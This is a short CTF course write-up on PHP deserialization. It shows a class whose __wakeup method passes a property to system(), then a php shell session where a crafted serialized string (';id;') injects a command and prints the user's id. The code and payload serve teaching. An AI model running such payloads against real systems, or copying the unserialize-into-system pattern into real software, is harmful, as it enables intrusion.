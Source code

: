 ```yaml
---
title: Simple Web 0x16.5(php unserialize)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > Deserialization"
---
```


# Simple Web 0x16.5(php unserialize)
###### tags: `NTUSTWS` `CTF` `Web`

## Background
php magic method 
![](https://i.imgur.com/xQrh7vo.png)

## Source code
```php=
class cat
{
    public $sound = 'ls';
    function __wakeup()
    {
        system("echo".$this->sound);
    }
}
$cat = unserialize($_GET['cat']);
```
## Description & Analyze
```bash!
$ php -a
php > class cat
php >  public {
php {     public $sound = 'ls';
php {     function __wakeup()
php {     {
php {         system("echo ".$this->sound);
php {     }
php { }
php > $_GET['cat']='O:3:"cat":1:{s:5:"sound";s:4:"meow";}';
php > $cat = unserialize($_GET['cat']);
meow
php > $_GET['cat']='O:3:"cat":1:{s:5:"sound";s:4:";id;";}';
php > $cat = unserialize($_GET['cat']);

uid=1000(sbk6401) gid=1000(sbk6401) groups=1000(sbk6401),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),1001(docker)
```
This is a typical command injection. The magic method `__wakeup()` will be called when unserialized something.
## Reference
